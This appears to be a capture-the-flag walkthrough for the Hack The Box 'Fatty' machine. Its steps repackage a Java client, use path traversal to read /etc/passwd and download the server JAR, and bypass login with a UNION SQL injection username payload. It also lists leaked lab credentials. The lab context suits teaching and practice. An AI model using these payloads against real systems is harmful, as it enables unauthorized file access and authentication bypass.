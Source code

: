 An FTP has anonymous access and contains these files:
- fatty-client.jar
- note.txt: port changed from 8000 to 1337
- note2.txt: client application relies on Java 8
- note3.txt: login with qtc:clarabibi

1. Run wireshark to find connection and port
- fatty-client.jar communicates with server.fatty.htb
2. Start Admin cmd and add the following
```
echo 10.10.10.174    server.fatty.htb >> C:\Windows\System32\drivers\etc\hosts
```
3. Right-click on fatty-client.jar and extract to a new file, fatty-client
4. Start PowerShell as administrator
```
ls fatty-client\ -recurse | Select-String "8000" | Select Path, LineNumber | Format-List
```
5. After reading file, we realize a value is set to 8000, let's change that. Edit the line <constructor-arg index="1" value = "8000"/> in beans.xml to be 1337.
6. Remove hashes from fatty-client\META-INF\MANIFEST.MF and delete the 1.RSA and 1.SF files from the META-INF directory. The modified MAINFEST.MF should end with a new line.
7. Run the following
```
cd .\fatty-client
jar -cmf .\META-INF\MANIFEST.MF ..\fatty-client-new.jar *
```
8. Login and explore the application

## Path Traversal

9. Path Traversal in the field and click open
```
../../../../../../etc/passwd
```
10. Decompile the application (drag-and-drop) with JD-GUI: http://java-decompiler.github.io/
11. Save the source code by pressing the Save All Sources option in jdgui. Decompress the fatty-client-new.jar.src.zip by right-clicking and selecting Extract files. The file fatty-client-new.jar.src/htb/fatty/client/methods/Invoker.java handles the application features. Reading its content reveals the following code.
```
public String showFiles(String folder) throws MessageParseException, MessageBuildException, IOException {
    String methodName = (new Object() {
      
      }).getClass().getEnclosingMethod().getName();
    logger.logInfo("[+] Method '" + methodName + "' was called by user '" + this.user.getUsername() + "'.");
    if (AccessCheck.checkAccess(methodName, this.user))
      return "Error: Method '" + methodName + "' is not allowed for this user account"; 
    this.action = new ActionMessage(this.sessionID, "files");
    this.action.addArgument(folder);
    sendAndRecv();
    if (this.response.hasError())
      return "Error: Your action caused an error on the application server!"; 
    return this.response.getContentAsString();
  }
```
12. The showFiles function takes in one argument for the folder name and then sends the data to the server using the sendAndRecv() call. The file  fatty-client-new.jar.src/htb/fatty/client/gui/ClientGuiTest.java sets the folder option.
```
configs.addActionListener(new ActionListener() {
          public void actionPerformed(ActionEvent e) {
            String response = "";
            ClientGuiTest.this.currentFolder = "configs";
            try {
              response = ClientGuiTest.this.invoker.showFiles("configs");
            } catch (MessageBuildException|htb.fatty.shared.message.MessageParseException e1) {
              JOptionPane.showMessageDialog(controlPanel, "Failure during message building/parsing.", "Error", 0);
            } catch (IOException e2) {
              JOptionPane.showMessageDialog(controlPanel, "Unable to contact the server. If this problem remains, please close and reopen the client.", "Error", 0);
            } 
            textPane.setText(response);
          }
        });
```
13. Replace the configs folder with ..
```
ClientGuiTest.this.currentFolder = "..";
  try {
    response = ClientGuiTest.this.invoker.showFiles("..");
```
14. Compile the ClientGuiTest.Java file
```
javac -cp fatty-client-new.jar fatty-client-new.jar.src\htb\fatty\client\gui\ClientGuiTest.java
```
15. Create a new folder and extract the contents of fatty-client-new.jar into it.
```
mkdir raw
cp fatty-client-new.jar raw\fatty-client-new-2.jar
```
16. Navigate to the raw directory and decompress fatty-client-new-2.jar by right-clicking and selecting Extract here. Overwrite any exxisting htb/fatty/client/gui/*.class files with the updated class files.
```
mv -Force fatty-client-new.jar.src\htb\fatty\client\gui\*.class raw\htb\fatty\client\gui\
```
17. Build new JAR file
```
cd raw
jar -cmf META-INF\MANIFEST.MF traverse.jar .
```
18. Login and we see the /config/../ directory. Application runs inside an Alpine docker container.
19. Modify open function in fatty-client-new.jar.src/htb/fatty/client/methods/Invoker.java to download the file fatty-server.jar
```
import java.io.FileOutputStream;
<SNIP>
public String open(String foldername, String filename) throws MessageParseException, MessageBuildException, IOException {
    String methodName = (new Object() {}).getClass().getEnclosingMethod().getName();
    logger.logInfo("[+] Method '" + methodName + "' was called by user '" + this.user.getUsername() + "'.");
    if (AccessCheck.checkAccess(methodName, this.user)) {
        return "Error: Method '" + methodName + "' is not allowed for this user account";
    }
    this.action = new ActionMessage(this.sessionID, "open");
    this.action.addArgument(foldername);
    this.action.addArgument(filename);
    sendAndRecv();
    String desktopPath = System.getProperty("user.home") + "\\Desktop\\fatty-server.jar";
    FileOutputStream fos = new FileOutputStream(desktopPath);
    
    if (this.response.hasError()) {
        return "Error: Your action caused an error on the application server!";
    }
    
    byte[] content = this.response.getContent();
    fos.write(content);
    fos.close();
    
    return "Successfully saved the file to " + desktopPath;
}
<SNIP>
```
20. We can now examine the fatty-server.jar that is on our desktop

## SQL Injection
21. Decompiling the fatty-server.jar using JD-GUI reveals the file htb/fatty/server/database/FattyDbSession.class that contains a checkLogin() function that handles the login functionality.
22. Check the username and password functions in htb/fatty/shared/resources/user.java. We find that the password changes to SHA256(username + password + "clarabibimakeseverythingsecure")
23. Also, username is passed directly into query, making it vulnerable to sql injection
```
rs = stmt.executeQuery("SELECT id,username,email,password,role FROM users WHERE username='" + user.getUsername() + "'");
```
24. We can inject a new user with UNION SELECT
25. Edit htb/fatty/shared/resources/User.java to submit the password as it is from the client application.
```
public User(int uid, String username, String password, String email, Role role) {
    this.uid = uid;
    this.username = username;
    this.password = password;
    this.email = email;
    this.role = role;
}
public void setPassword(String password) {
    this.password = password;
  }
```
27. Rebuild JAR file and input this into username with password 'abc'
```
abc' UNION SELECT 1,'abc','a@b.com','abc','admin
```
26. Login as admin!
